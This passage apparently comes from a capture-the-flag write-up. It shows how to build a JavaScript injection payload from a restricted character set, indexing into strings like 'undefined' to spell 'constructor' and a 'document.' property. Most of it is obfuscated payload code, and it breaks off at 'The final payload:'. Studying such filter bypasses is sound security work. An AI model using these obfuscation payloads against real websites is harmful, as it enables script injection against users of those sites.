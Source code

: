 Results:
["function Array() { [native code] }"]
```
Now we missing only the character `d`, which was easy to achieve when carefully I read the relevant sections of the supporting material:

```
[[][[]]+``]

Results: 
["undefined"]
```
## Final payload ##
Constructing payload: 

```

[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]]


[[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]



[e+``, e-1+``][1][1]+[e+``, e-1+``][0][21]+[e+``, e-1+``][0][22]+[e+``, e-1+``][0][16]+[e+``, e-1+``][0][26]


[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][14]


[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][5]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][23]+[e+``, e-1+``][0][22]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][6]+`.`+[[][[]]+``][0][2]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][23]+[e+``, e-1+``][1][1]+[[][[]]+``][0][5]+[e+``, e-1+``, [][[]]+``][2][1]


[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]][0][15]

```

The final payload: 

```


